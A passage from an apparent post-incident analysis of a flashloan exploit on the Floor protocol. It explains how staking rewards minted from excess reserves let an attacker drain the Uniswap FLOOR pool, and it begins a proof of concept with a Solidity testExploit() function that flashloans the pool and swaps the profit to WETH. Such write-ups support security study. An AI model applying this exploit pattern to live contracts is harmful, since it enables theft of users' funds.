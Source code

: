 When users stake FLOOR tokens, the index correspondingly increases. When they unstake, the redemption amount is calculated using this higher index, resulting in a larger amount of redeemed FLOOR tokens.

Furthermore, if we trace this back to the Treasury contract, we can find that these seemingly "extra" FLOOR tokens are minted with excessReserves as collateral.

<figure><img src="../../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Therefore, we can arrive at a concise conclusion: When users deposit funds into the Staking Pool, the Floor protocol will mint additional FLOOR tokens back into the staking pool as rewards for users, as long as the reserve allows it.

When the attacker staked a substantial amount of funds, they naturally received a larger reward. This is why when the attacker utilized the entire FLOOR pool in Uniswap, they were able to profit significantly from the pool.

At this point, you might have some questions: Can FLOOR tokens be infinitely minted? Is there an upper limit? Is there an issue with the Floor protocol's minting logic, and why doesn't the index adjust when users unstake?

Don't worry; these questions will be addressed one by one in the following sections.

## POC

With the analysis above, our replication process becomes more straightforward.

### testExploit()

Functions starting with 'test' are default test functions. Firstly, we need to read the existing quantity of FLOOR tokens in the Uniswap pool and execute a flashloan. The specific attack relies on the funds obtained through the flashloan (as described below). Afterward, we output the quantity of FLOOR tokens the attacker acquired and the value after swapping to WETH.

```solidity
function testExploit() public {
        flashAmount = floor.balanceOf(address(floorUniPool)) - 1;
        floorUniPool.flash(address(this), 0, flashAmount, "");
        uint256 profitAmount = floor.balanceOf(address(this));
        emit log_named_decimal_uint("FLOOR token balance of attacker", profitAmount, floor.decimals());
        floorUniPool.swap(address(this), false, int256(profitAmount), uint160(0xfFfd8963EFd1fC6A506488495d951d5263988d25), "");
        emit log_named_decimal_uint("WETH balance of attacker", WETH.balanceOf(address(this)), WETH.decimals());
    }
```
